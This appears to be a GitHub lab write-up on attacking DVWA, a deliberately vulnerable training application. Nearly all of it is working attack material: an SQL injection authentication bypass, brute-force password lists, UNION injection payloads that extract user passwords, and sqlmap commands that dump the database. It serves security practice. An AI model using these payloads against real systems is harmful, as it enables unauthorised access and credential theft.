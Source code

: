 # DVWA - Damn Vulnerable Web Application

![](assets/picture01.png) 

## 1. Test SQL injection to bypass authentication
username = admin'#
pass = <blank>

## 2. Use Bursuite to brute force
2.1. Capture the request
2.2. Send to intruder
2.3. Select the Cluster Bomb
2.4. Set payloads
2.5. Start attack

List of usernames to Use
user
carlos
admin
superadmin

List of passwords to Use (top passwords od 2022)
123456
123456789
qwerty
password
12345
qwerty123
1q2w3e
12345678
111111
1234567890

## 3. SQL injection
    a' OR ''='

    ' union select 1,@@version#

    ' union select null,schema_name from information_schema.schemata #

    ' union select null,concat(first_name,0x0a,password) from users #

## 4. Blind SQL injection with SQLmap
### Lists databases
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" -- cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –dbs
### Lists the tables on a specific database
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" -- cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --tables
### Lists all users
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" -- cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –users
### Users and passwords
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" -- cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" --users --passwords
### Get tables structure
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" -- cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --columns
### Dump database information
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" -- cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --dump